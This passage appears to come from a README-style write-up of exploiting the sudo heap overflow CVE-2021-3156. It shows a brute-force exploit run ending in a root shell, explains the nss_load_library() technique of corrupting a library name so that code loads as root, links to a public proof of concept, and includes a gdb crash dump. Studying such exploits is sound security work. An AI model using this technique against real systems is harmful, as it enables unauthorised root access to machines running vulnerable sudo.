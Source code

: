 ```
./exp.sh: line 3: 40282 Segmentation fault      ./exploit
[i] Try 2838
[.] crafting payload...
[.] triggering heap overflow...
./exp.sh: line 3: 40283 Segmentation fault      ./exploit
[i] Try 2839
[.] crafting payload...
[.] triggering heap overflow...
./exp.sh: line 3: 40284 Segmentation fault      ./exploit
[i] Try 2840
[.] crafting payload...
[.] triggering heap overflow...
[+] callback executed!
[+] we are root!
# id
uid=0(root) gid=0(root) groups=0(root)
#
```

## nss_load_library() method

You can find the PoC for this method by [@bl4sty](https://twitter.com/bl4sty): [https://github.com/blasty/CVE-2021-3156](https://github.com/blasty/CVE-2021-3156).

Also I implemented another one at: `nss_exploit/`

As the Qualsys advisory says, this method consists on corrupting the `ni->library` pointer to satisfy the conditional at `nsswitch.c:322`, thus forcing a call to `nss_new_service()` to avoid the crash at `nsswitch.c:336`.

Then overwrite the `systemd\x00` with any string like "X/X", that way:

```c
      /* Construct shared object name.  */
      __stpcpy (__stpcpy (__stpcpy (__stpcpy (shlib_name,
					      "libnss_"),
				    ni->name),
			  ".so"),
		__nss_shlib_revision);
```

we would be crafting a library name, which will then be passed to `__libc_dlopen`.

If we can trick it to load a custom library, it will get loaded and then executed (with root privileges).


### Reached exploitation point

```
Program received signal SIGSEGV, Segmentation fault.
0x00007ffff7e9f4ee in nss_load_library (ni=ni@entry=0x555555582900) at nsswitch.c:344
344  nsswitch.c: No such file or directory.
(gdb) rax            0x0                 0
rbx            0x42424242424242    18650200809816642
rcx            0x55555557f010      93824992407568
rdx            0x0                 0
rsi            0x0                 0
rdi            0x555555582900      93824992422144
rbp            0x7fffffffe150      0x7fffffffe150
rsp            0x7fffffffe100      0x7fffffffe100
r8             0x55555558d620      93824992466464
r9             0x7fffffffe000      140737488347136
r10            0xffffffff          4294967295
r11            0x0                 0
r12            0x555555582900      93824992422144
r13            0x7fffffffe168      140737488347496
```